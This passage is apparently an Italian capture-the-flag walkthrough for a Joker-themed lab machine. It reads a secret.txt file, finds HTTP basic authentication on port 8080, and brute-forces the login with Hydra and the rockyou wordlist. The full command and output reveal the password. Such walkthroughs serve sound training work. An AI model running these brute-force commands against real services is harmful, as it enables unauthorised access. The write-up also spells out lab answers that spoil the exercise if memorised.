 ```
http://10.10.44.224/secret.txt
```
```
Batman hits Joker.
Joker: "Bats you may be a rock but you won't break me." (Laughs!)
Batman: "I will break you with this rock. You made a mistake now."
Joker: "This is one of your 100 poor jokes, when will you get a sense of humor bats! You are dumb as a rock."
Joker: "HA! HA! HA! HA! HA! HA! HA! HA! HA! HA! HA! HA!"
```

```
joker
```

**Quale porta su questa macchina deve essere autenticata tramite il meccanismo di autenticazione di base?**

```
http://10.10.207.89:8080/
```
abbiamo autenticazione di base
```
8080
```

**A questo punto abbiamo un utente e un URL che deve essere autenticato. Usiamo la forza bruta per ottenere la password. Qual è questa password?**

usiamo hydra per fare brute force

```
hydra -l joker -P /usr/share/wordlists/rockyou.txt -s 8080 10.10.183.128 -m / http-get
```

```
└─# hydra -l joker -P /usr/share/wordlists/rockyou.txt -s 8080 10.10.183.128 -m / http-get
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-06-05 11:54:42
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-get://10.10.183.128:8080/
[8080][http-get] host: 10.10.183.128   login: joker   password: hannah
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-06-05 11:55:10

```

ricapitolando abbiamo come user 
```
joker
```
e password
```
hannah
```
per loggarci in http://10.10.100.76:8080
